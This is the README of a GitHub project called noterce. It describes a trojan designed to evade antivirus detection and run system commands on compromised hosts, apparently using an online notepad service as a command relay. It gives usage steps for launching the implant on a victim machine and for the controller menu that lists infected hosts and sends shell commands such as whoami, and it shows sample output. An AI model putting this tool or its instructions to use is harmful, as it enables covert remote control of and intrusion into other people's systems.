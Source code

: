 ## noterce
一种另辟蹊径的免杀执行系统命令的木马

## 使用
client为控制端
server为被控制端

1. 在被控端运行被控端
- 被控端运行命令 key参数制定notekey admin参数执行主控 ：
./server --key notekey --admin ocis

2. 控制端刷新在线主机列表


```shell
0:主机名:[penetration]  note地址:[BpLnfgDsc3WD9F3qNfHK6a95jjJkwz]       notekey地址:[zhu1234554321zhu]


1.获取在线主机列表(不一定全)
2.执行主机命令(需要等待30秒)
3.删除主机(可能主机被控木马已被杀掉,列表不会自动删除,需要手动删除)
```


3.控制端执行命令
```shell
1.获取在线主机列表(不一定全)
2.执行主机命令(需要等待30秒)
3.删除主机(可能主机被控木马已被杀掉,列表不会自动删除,需要手动删除)

2
请输入note地址:BpLnfgDsc3WD9F3qNfHK6a95jjJkwz
请输入notekey:BpLnfgDsc3WD9F3qNfHK6a95jjJkwz
请输入shell命令:whoami
请等待30秒
jpass
```


```shell
1.获取在线主机列表(不一定全)
2.执行主机命令(需要等待30秒)
3.删除主机(可能主机被控木马已被杀掉,列表不会自动删除,需要手动删除)

2
请输入note地址:BpLnfgDsc3WD9F3qNfHK6a95jjJkwz
请输入notekey:BpLnfgDsc3WD9F3qNfHK6a95jjJkwz
请输入shell命令:whoami
请等待30秒
jpass
```

